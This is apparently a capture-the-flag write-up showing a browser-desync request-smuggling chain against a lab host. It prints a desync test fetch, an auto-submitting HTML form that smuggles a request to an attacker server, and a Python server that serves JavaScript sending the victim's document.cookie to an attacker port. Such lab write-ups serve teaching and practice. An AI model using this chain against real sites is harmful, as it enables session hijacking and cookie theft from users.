 **Overview:**
	![](Pasted%20image%2020250216051852.png)

First step is to see if the application if vulnerable of browser desync and we will use the following payload:
```javascript
fetch('http://challenge.thm/', {

    method: 'POST',

    body: 'GET /redirect HTTP/1.1\r\nFoo: x',

    mode: 'cors',

})
```

 Utilizing the given payload and refreshing the page results in a **404 error** page. This indicates that the web server is vulnerable to request smuggling browser desync.

Next, we can observe that the contact page does not correctly sanitize text input, potentially allowing us to send an arbitrary payload.
	![](Pasted%20image%2020250216052123.png)

Visting  [http://challenge.thm/securecontact](http://challenge.thm/securecontact) we can notice that the input from the message field is reflected but is not interpreted:
	![](Pasted%20image%2020250216052243.png)

The victim will instead visit another page [http://challenge.thm/vulnerablecontact](http://challenge.thm/vulnerablecontact) where the input will be interpreted.
	![](Pasted%20image%2020250216052319.png)

Now, we just need to build our payload to redirect the victim user to fetch the second payload **from our server**:

```html
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://10.10.201.241:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>

```

Finally, we will serve a payload on our controlled server to steal the user's cookie and send it to us:

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-type","text/html")

            self.end_headers()
            self.wfile.write(b"fetch('http://{10.10.201.241}:8080/' + document.cookie)")
def run_server(port=1337):   
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

```shell
sudo python3 server.py
```

Note that the victim will make an additional request to port 8080; we can serve another Python web service by using:

```python
sudo python3 -m http.server 8080
```

```shell
sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/)
- - - - "GET /flag=THM{REDACTED} HTTP/1.1" 404 -w
```


- payload is delivered by an XSS which will create a form where on click our victim will be redirected to our malicious server(served on port 1337) where a python script is present for cookie stealing.
	![](Pasted%20image%2020250216054405.png)
		![](Pasted%20image%2020250216054522.png)

- the python script is configured to exfiltrate cookies on port 8080
	![](Pasted%20image%2020250216054414.png)